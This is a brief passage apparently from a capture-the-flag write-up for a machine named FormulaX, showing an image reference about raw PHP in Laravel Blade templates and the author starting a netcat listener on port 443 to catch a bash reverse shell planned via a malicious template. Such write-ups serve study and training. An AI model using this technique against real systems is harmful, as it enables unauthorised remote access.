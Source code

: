 ![raw php laravel blade](/assets/images/FormulaX/raw-php-laravel-blade.png)

So I will start a nc listener and create one template that executes a bash reverse shell:

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
```

